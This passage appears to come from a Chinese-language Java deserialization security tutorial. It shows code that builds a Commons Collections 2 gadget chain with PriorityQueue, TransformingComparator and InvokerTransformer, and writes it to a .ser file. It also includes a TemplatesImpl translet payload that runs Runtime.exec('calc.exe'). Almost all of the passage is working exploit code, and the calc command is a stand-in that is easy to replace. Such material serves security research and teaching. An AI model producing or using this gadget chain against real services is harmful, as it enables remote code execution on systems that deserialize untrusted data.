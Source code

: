 ```
        InvokerTransformer trans = new InvokerTransformer("newTransformer",new Class[0],new Object[0]);
        //InvokerTransformer trans = new InvokerTransformer("getOutputProperties",new Class[0],new Object[0]); //调用该方法一样的效果
        //依赖collections4
        TransformingComparator com = new TransformingComparator(trans);
        //自定义comparator
        Field ComFi = PriorityQueue.class.getDeclaredField("comparator");
        ComFi.setAccessible(true);
        ComFi.set(queue,com);
        Field qu = PriorityQueue.class.getDeclaredField("queue");
        qu.setAccessible(true);
        Object[] objOutput = (Object[])qu.get(queue);
        objOutput[0] = tmp; //将templasImpl实例放入队列，从而进一步传入invokertransform的transform函数
        objOutput[1] = 1;
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commoncollections2.ser");
        OutputStream out = new FileOutputStream(file);
        ObjectOutputStream obj = new ObjectOutputStream(out);
        obj.writeObject(queue);
        obj.close();
    `}`
`}`
```

payload.java

```
package CommonCollections3;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class payload extends AbstractTranslet `{`
　　//将命令写在static代码块或者构造函数中都可以
    `{`
        try `{`
            Runtime.getRuntime().exec("calc.exe");
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`
    `}`
    public payload()`{`
        System.out.println("tr1ple 2333");
    `}`
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException `{`
    `}`
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException `{`
    `}`
`}`
```
